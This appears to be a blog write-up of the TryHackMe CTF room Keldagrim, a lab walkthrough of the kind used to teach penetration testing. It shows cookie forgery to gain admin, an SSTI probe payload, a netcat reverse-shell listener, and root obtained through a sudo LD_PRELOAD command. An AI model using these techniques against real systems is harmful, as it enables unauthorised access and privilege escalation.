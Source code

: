 ```yaml
---
layout: post
current: post
cover: 'assets/images/keldagrim/cover.png'
navigation: True
title: "Keldagrim Write Up"
date: 2021-03-06 00:00:00
tags: [tryhackme, ctf, medium]
class: post-template
subclass: 'post'
author: darryn
---
```

![keldagrim](/assets/images/keldagrim/cover.png)

### Overview

[Keldagrim](https://tryhackme.com/room/keldagrim) is a medium level CTF room on [TryHackMe](https://tryhackme.com) created by [Optional](https://twitter.com/optionalctf).

> Can you overcome the forge and steal all of the gold!

### Nmap

I deployed the machine and was given the target IP 10.10.252.142 I started a nmap scan to check the available ports. 

```highlight
└──╼ $sudo nmap -sC -sV -oN nmap/initial 10.10.252.142
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-06 13:03 GMT
Nmap scan report for 10.10.252.142
Host is up (0.030s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d8:23:24:3c:6e:3f:5b:b0:ec:42:e4:ce:71:2f:1e:52 (RSA)
|   256 c6:75:e5:10:b4:0a:51:83:3e:55:b4:f6:03:b5:0b:7a (ECDSA)
|_  256 4c:51:80:db:31:4c:6a:be:bf:9b:48:b5:d4:d6:ff:7c (ED25519)
80/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-cookie-flags: 
|   /: 
|     session: 
|_      httponly flag not set
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
|_http-title:  Home page 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.63 seconds
```

2 Ports open:

- 22 - SSH - Banner is showing its an Ubuntu machine
- 80 - HTTP - Werkzeug httpd 1.0.1

I also ran a full port scan but no additional ports were found.

### Enumeration

I opened up my browser and started to have a look at the web page.

![webpage](/assets/images/keldagrim/webpage.png)

Nothing really stood out however when I looked at the source code I could see a disabled link to /admin

```highlight
    <li class="nav-item dropdown">
        <a class="nav-link dropdown-toggle" href="#" id="navbarDropdown" role="button" data-toggle="dropdown" aria-haspopup="true" aria-expanded="false">
          Buy Gold
        </a>
        <div class="dropdown-menu" aria-labelledby="navbarDropdown">
            <a class="dropdown-item" href="/wow">World of Warcraft</a>
            <a class="dropdown-item" href="/OSRunescape">Old School Runescape</a>
            <a class="dropdown-item" href="/runescape">Runescape3</a>
          <div class="dropdown-divider"></div>
          <a class="dropdown-item " href="/admin">Admin</a>
        </div>
      </li>
</ul>
```

However the page looks pretty much the same. So I looked at cookies and found a session cooke with a base64 value.

![guest](/assets/images/keldagrim/guest.png)

There are lots of ways to change the base64 to plaintext but I really like [CyberChef](https://gchq.github.io/CyberChef/) at the moment. Using CyberChef I was able to see the value was 'guest'.

![cyberchef](/assets/images/keldagrim/cyberchef.png)

I used CyberChef again to encode 'admin' in to base64.

![adminhash](/assets/images/keldagrim/adminhash.png)

Simply changing the session cookie value to the base64 output and refreshing the page now allowed me to see - 'Current user - $2,165' and be provided with a sales cookie.

![sales](/assets/images/keldagrim/sales.png)

This was also base64 encoded, CyberChef has a great feature called 'Magic', if you are unsure how something is encoded use magic to suggest and test various operations.

![saleshash](/assets/images/keldagrim/saleshash.png)

This next bit took some time, I was able to base64 a string and input it in to the sales cookie and it would be displayed on the webpage, however I was unsure how I would be able to use this to get a foothold on the box. After some googling, I tried a technique called Server Side Template Injection (SSTI). This was not something I had tried to exploit before so I did some research on the technique to try and understand it and used [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) to see if I was on the right track. 

I found a payload \{\{7\*\'7'\}\} and if I had SSTI that should result in 7777777. I encoded the payload in base64 and updated the sales cookie with the output. 

![sstipayload](/assets/images/keldagrim/sstipayload.png)

Refreshed the page and confirmed I had SSTI in the sales cookie!

![ssti](/assets/images/keldagrim/ssti.png)

### Initial Access

On the same [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) page was an example for remote code execution. I took the example for exploiting an SSTI by calling Popen without guessing the offset, changed the IP and port values and encoded again with base64.

I opened a nc listener and updated the sales cookie with the base64 output and got a shell!

```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.252.142] 36928
/bin/sh: 0: can't access tty; job control turned off
$ whoami
jed
$ 
```

### Priv Esc

Now to get root i checked 'sudo -l'.

```highlight
$ sudo -l
Matching Defaults entries for jed on keldagrim:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User jed may run the following commands on keldagrim:
    (ALL : ALL) NOPASSWD: /bin/ps
```

I had a look at [GTFOBins](https://gtfobins.github.io/) for '/bin/ps' but as expected I didn't find anything, I also noticed 'env_keep+=LD_PRELOAD'. There is a great course by [Heath Adams](https://twitter.com/thecybermentor) on [udemy](https://www.udemy.com/course/linux-privilege-escalation-for-beginners) for Linux privesc techinques and this is covered as part of the course. There is also a great [article](https://touhidshaikh.com/blog/2018/04/12/sudo-ld_preload-linux-privilege-escalation/) which covers it.

I used the steps in the article to create a file called evil.c, compiled with GCC. Ran the sudo command with LD_PRELOAD and got root!

```highlight
jed@keldagrim:/dev/shm$ sudo LD_PRELOAD=/dev/shm/evil.so ps
root@keldagrim:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root)
root@keldagrim:/dev/shm# 
```

Thanks for reading!
